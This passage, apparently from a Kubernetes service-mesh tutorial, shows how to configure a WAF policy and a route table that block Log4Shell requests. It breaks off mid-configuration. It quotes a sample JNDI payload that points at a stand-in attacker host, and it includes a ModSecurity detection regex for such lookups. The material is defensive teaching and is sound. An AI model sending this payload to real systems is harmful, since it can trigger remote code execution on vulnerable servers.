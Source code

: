 Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That’s what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

In this example, we're going to update the main `RouteTable` to enforce this policy for all the applications exposed through the gateway (in any workspace).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-httpbin
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-httpbin.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      labels:
        waf: "true"
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
```